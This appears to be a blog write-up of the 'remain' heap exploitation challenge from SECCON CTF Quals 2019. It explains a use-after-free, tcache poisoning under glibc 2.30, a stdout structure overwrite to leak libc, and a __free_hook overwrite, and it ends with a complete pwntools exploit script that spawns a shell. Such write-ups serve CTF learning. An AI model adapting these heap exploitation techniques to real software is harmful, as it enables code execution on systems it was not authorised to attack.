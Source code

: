 ```yaml
---
title: remain - SECCON CTF Quals 2019
date: 2019-10-20 15:00:00
author: slashb4sh
author_url: https://twitter.com/slashb4sh
categories:
  - Pwn
tags:
  - CTF
  - Writeup
  - Pwn
---
```


**tl;dr**
+ linux heap exploitation challenge with glibc 2.30

<!--more-->


**Challenge points**: 418
**No. of solves**: 19
**Solved by**: [slashb4sh](https://twitter.com/slashb4sh)


A glibc heap Note challenge

```c
Remain
MENU
****************
1. Add
2. Edit
3. Delete
0. Exit
****************
> 
```

Add
- malloc(0x48), fixed size
- read input into chunk
- check if space available in table[10]
- if full are there, then free chunk, else add to table

Edit
- Edit a chunk with size as strlen(content in the given table idx)

Delete
- Free a table[idx]
- table[idx] not nulled out, leading to `Use after Free`


glibc 2.30 has double free check just like 2.29
The tcache structure's address is used as cookie in a freed chunk in tcache. When a chuunk is freed ino the tcache.
```c
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;

  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

With subsequent free, if the key value is equal to tcache structure's address, then all the chunks in the tcache linked list of the particular size is checked in a loop for double free.
```c
	tcache_entry *e = (tcache_entry *) chunk2mem (p);
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
```
Since we have use after free in edit function, we can overwrite the key to bypass the check,... oops wait a minute, the edit function uses strlen to get the size of the edit which means bypass is not easy.

But we still can change the next pointer of a freed tcache chunk, giving an `arbitary write in the heap` by partialy overwriting freed chunk's next pointer.

#### Exploitation
Since there is no show function, we will have to overwrite the stdout file structure to leak libc addresses. This directed my ideas to getting a parial overwrite to a freed tcache chunk with a libc address as the next pointer.

The size is fixed to 0x48, filling the tcache with these chunk will only put them in fastbin. We have to change the size of the chunk and then free it to get libc address as fd.
Remember that pointers in the table are not nulled out, so we have to finish the exploit with 10 allocations.

After a lot of thinking, this is what I came up with,
- use the partial overwrite to get write to the tcache structure
- overwrite the count for the 0xa0 chunk to 0x7 in the tcache structure
- now, when we free a 0xa0 chunk it will be inserted into the unsorted bin
- To free a 0xa0 chunk we partially overwrite the fd of free chunk to point above the first chunk allocated so as to overwrite the size. 
- Set the size as 0x51 itself and free it once
- Change the size to 0xa1 and free it, I chose to overwrite with 0xa0, as the next chunk size fields will be already set and chunk will be inserted into the unsorted bin without any hazzles.
- As we have a free tcache chunk pointing to a libc address, partially overwrite the libc address to point to stdout.
- Overwrite the `stdout->flags` with `0xfbad1800` and partiallly overwrite the `write_base` to `\x00` to dump a region of memory with the next puts call.
- Now overwrite the fd of a free tcache chunk to get overwrite `__free_hook`

Following all these steps I had already consumed 9 allocations out of the possible 10. 
But I need two more allocations to write `system` to `__free_hook`
Looking at the add functions again, we can notice that an allocation is made, our input is read into it and then free is called if table is full. This satisfies our requiredments perfectly.
Use the 10th allocation, and then 11th one to overwrite `__free_hook`. `system` is called for us within add functionality and we get shell :)

**Note: ** There is a 4 bit bruteforce for tcache structure and another 4 bit bruteforce to get stdout. Luckily I got shell in remote server in the 4th or 5th try.

```python
from pwn import *

#s=process("./rem",env={'LD_PRELOAD' : './libc.so.6'})
s=remote("remain.chal.seccon.jp", 27384)
libc=ELF("./libc.so.6")

def add(data):
    s.sendlineafter("> ", str(1))
    s.sendlineafter("Input memo > ", str(data))

def edit(idx, data):
    s.sendlineafter("> ", str(2))
    s.sendlineafter("Input id > ", str(idx))
    s.sendafter("Input new memo > ", str(data))

def free(idx):
    s.sendlineafter("> ", str(3))
    s.sendlineafter("Input id > ", str(idx))


# allocate tcache struct and overwrite the count for 0xa0 chunk with 0x7 
# when we free 0xa0 chunk, it will be inserted into the unsorted bin
add("a"*0x20 + p64(0) + p64(0x51))
add("a"*0x20 + p64(0) + p64(0x21))
free(0)
free(1)
edit(1,p16(0x7000)) # partially overwrite to point to tcache structure (4-bit bruteforce)
add("a"*0x40)
add(p64(0) + p64(0x291) + p64(0x0000000000000000) + p64(0x0707070707070707))
log.success("tcache structure written")

free(0)
free(1)
edit(1,p8(0x90)) # partially overwrite to point above chunk 1
add("a"*0x40)
add("b"*0x8 + p64(0x51)) # size edit primitive established
add("f"*0x40) # chunk allocated to prevent coallesing
free(6)
free(0)
edit(5,"a"*0x8 + "\xa1") # set size as 0xa0 
free(0)
log.success("freed 0xa0 chunk")

edit(0,"\xa0\x16") # partially ovewrite freed chunk
add("a"*0x40)
add(p64(0xfbad1800) + p64(0x00)*3 + "\x00")
s.recv(0x20)
base = u64(s.recv(8))-0x3b5a60
log.info("libc = " + hex(base))
free_hook = base + libc.symbols['__free_hook']
malloc_hook = base + libc.symbols['__malloc_hook']
system = base + libc.symbols['system']

edit(5,"a"*0x8 + "\x51")
free(0) 
free(1)
edit(1,p64(free_hook-0x8)[:-2])
add("a"*0x40)
add("/bin/sh\x00" + p64(system))
s.sendline("cat flag.txt")

s.interactive()
```




